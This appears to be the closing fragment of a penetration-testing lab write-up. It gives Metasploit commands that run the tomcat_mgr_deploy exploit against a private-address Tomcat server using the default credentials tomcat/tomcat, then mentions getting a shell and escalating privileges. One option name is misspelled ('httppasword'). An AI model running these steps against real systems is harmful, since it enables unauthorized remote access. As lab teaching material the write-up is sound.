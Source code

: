  use exploit/multi/http/tomcat_mgr_deploy
 
 set RHost 192.168.1.9

 set RPORT 8180 

 set httpusername tomcat

 set httppasword tomcat

 run 
 
 now we have our shell and can attend a prev escalation as the way we did with postgress above
 
 
Thanks for taking some time reading this i hope it was useful please don't hesitate correcting me any mistake for giving me advise
 ----
